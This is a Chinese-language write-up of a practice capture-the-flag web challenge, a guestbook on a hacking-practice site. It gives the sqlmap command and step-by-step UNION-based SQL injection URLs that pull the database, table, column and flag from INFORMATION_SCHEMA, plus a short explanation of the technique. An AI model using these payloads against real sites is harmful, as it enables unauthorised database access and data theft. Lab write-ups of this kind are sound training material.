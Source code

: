 # inndy web guestbook
* [題目網址](https://hackme.inndy.tw/gb)
1. 題目提示用 sqlmap，所以用 sqlmap 掃每個網址，最後發現 sqlmap -u "https://hackme.inndy.tw/gb/?mod=read&id=10" 時出現有 UNION BASE SQL INJECTION，且欄位數目 4 個
2. 開始利用此漏洞得到 database name, table name, column name...
```
# 得到 database name 為 g8:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, DATABASE()--

# 得到 table name 為 flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='g8'--

# 得到 column name flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='g8' AND TABLE_NAME='flag' AND COLUMN_NAME LIKE '%la%'--

# 得到 flag:
https://hackme.inndy.tw/gb/?mod=read&id=10 UNION SELECT 1, 2, 3, flag FROM flag WHERE flag LIKE '%FLAG%'--;
```

* UNION BASE SQL INJECTION 原理:
UNION 在 SQL 語法中是用來合併查詢用的，把 UNION 後面的查詢結果接在前面查詢結果的後面，所以 COLUMN 數量也必須一樣，多了少了都會出錯。
* [sqlmap 教學](http://www.vuln.cn/1992)